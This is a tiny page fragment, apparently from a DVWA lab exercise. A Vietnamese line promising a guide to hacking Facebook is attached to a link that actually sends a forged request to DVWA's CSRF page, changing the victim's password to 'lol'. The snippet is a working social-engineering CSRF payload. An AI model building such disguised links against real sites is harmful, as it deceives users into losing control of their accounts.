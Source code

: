Đọc hướng dẫn cách hack fb nè!
[Super Haker](http://dvwa.com/vulnerabilities/csrf/?password_new=lol&password_conf=lol&Change=Change#)^^